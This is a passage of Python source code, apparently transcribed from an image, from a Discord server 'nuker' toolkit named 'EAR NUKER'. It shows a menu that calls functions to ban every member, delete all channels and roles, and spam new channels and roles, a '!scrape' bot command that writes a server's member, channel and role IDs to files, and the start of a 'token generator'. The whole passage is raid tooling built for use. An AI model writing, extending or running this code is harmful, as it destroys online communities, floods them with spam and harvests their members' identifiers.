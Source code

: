     roledel()
    time.sleep(1)
    server()
  elif choice == 4:
    chanspam()
    time.sleep(1)
    server()
  elif choice == 5:
    rolespam()
    time.sleep(1)
    server()
  elif choice == 6:
    banall()
    chandel()
    roledel()
    os.system('cls; clear')
    print('NUKE - CONFIG SETTINGS - EAR NUKER')
    chanspam()
    rolespam
    time.sleep(1)
    server()
  elif choice == 7:
    print("\nType !scrape To Get Started.")
  elif choice == 8:
    mainmenu()
  else:
    print("\nInvalid Choice - Please Try Again...")
    time.sleep(2)
    server()
@client.command()
async def scrape(ctx):
    await ctx.message.delete()
    try:
        os.remove("Scraped/members.json")
        os.remove("Scraped/channels.json")
        os.remove("Scraped/roles.json")
    except:
        pass
    membercount = 0
    with open('Scraped/members.json', 'a') as f:
        for member in ctx.guild.members:
            f.write(str(member.id) + "\n")
            membercount += 1
        print(f"Scraped {membercount} Members")
    channelcount = 0
    with open('Scraped/channels.json', 'a') as f:
        for channel in ctx.guild.channels:
            f.write(str(channel.id) + "\n")
            channelcount += 1
        print(f"Scraped {channelcount} Channels")
    rolecount = 0
    with open('Scraped/roles.json', 'a') as f:
        for role in ctx.guild.roles:
            f.write(str(role.id) + "\n")
            rolecount += 1
        print(f"Scraped {rolecount} Roles")
    time.sleep(3)
    server()
def tokengen():
  os.system('cls; clear')
  print('[EAR TOOLKIT] - TOKEN GENERATOR: \n')
  try:
    amount = int(input('Amount: '))
    print()